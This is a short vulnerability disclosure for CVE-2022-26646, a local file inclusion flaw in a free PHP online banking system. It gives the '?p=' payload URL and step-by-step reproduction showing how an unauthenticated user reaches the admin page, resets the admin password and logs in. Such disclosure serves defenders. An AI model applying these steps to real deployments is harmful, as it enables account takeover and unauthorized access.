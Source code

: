 # Tittle: Online Banking System LFI.

## Author: (Erik451)
## Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
## Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
## Version: OBS 1.0
## CVE: CVE-2022-26646
-   Description: The parameter "?p=" includes files. A user can read internal php files of the web. LFI to Privilege Escalation
-   Null session account to admin
-   Payload used: `http://web.com/banking/?p=<any_phpfile>`

### **Steps to reproduce:**

- 1- Go to home page [http://localhost/banking/?p=about](http://localhost/banking/?p=about)

![nullsession](https://user-images.githubusercontent.com/47476901/160772671-238ab371-036f-4763-aac5-f2d59aca42ad.png)

- 2- Load the admin user page [http://localhost/banking/?p=admin/user/index](http://localhost/banking/?p=admin/user/index)

![adminpage](https://user-images.githubusercontent.com/47476901/160772705-978e6fc1-a2b5-439a-85f2-cd2959267bf4.png)


- 3- Change the admin password

![changepass](https://user-images.githubusercontent.com/47476901/160647853-084108de-0592-4c79-8d3a-f7a1d3692466.png)

- 4- Login as administrator

![login](https://user-images.githubusercontent.com/47476901/160647880-c00a310c-ca03-4fef-839f-0131122ee50d.png)


- 5- Admin panel

![adminpanel](https://user-images.githubusercontent.com/47476901/160647820-d55df39c-9287-4bd5-8214-e10558e8aa09.png)


#### Other Payload:
Reading info.php

![infophp](https://user-images.githubusercontent.com/47476901/160773672-89489f95-973e-490c-b331-a36128103ef0.PNG)
